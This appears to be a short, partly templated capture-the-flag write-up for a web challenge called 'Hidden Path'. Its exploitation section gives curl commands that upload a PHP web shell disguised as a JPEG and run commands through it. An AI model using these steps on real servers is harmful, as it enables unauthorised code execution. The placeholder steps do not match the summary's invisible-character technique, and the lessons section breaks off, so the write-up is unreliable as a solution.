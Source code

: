 # Hidden Path
**Date**: 2025-05-16  
**Category**: Web 

## Table of Contents
- [Summary](#summary)
- [Reconnaissance & Enumeration](#reconnaissance--enumeration)
- [Exploitation](#exploitation)
- [Takeaways & Lessons Learned](#takeaways--lessons-learned)

---

## Summary
Find the use of hidden invisible characters and url encode to manipulate post methods.

---

## Reconnaissance & Enumeration
1. **Passive Recon**  
   - Tools: `whatweb`, `dig`, code comments  
   - Findings: e.g. `/verification` upload endpoint, Flask app, Bootstrap front end  
2. **Active Recon**  
   - Tools: Gobuster, Burp crawl, JS/​XHR analysis  
   - Findings: e.g. `/uploads/`, `/static/images/`, protected `/admin`  

---

## Exploitation
```bash
# Example steps
curl -F "file=@shell.php.jpg;type=image/jpeg" \
     http://TARGET/verification

curl "http://TARGET/uploads/shell.php.jpg?cmd=id"
```

## Takeaways & Lessons Learned
- Invisible characters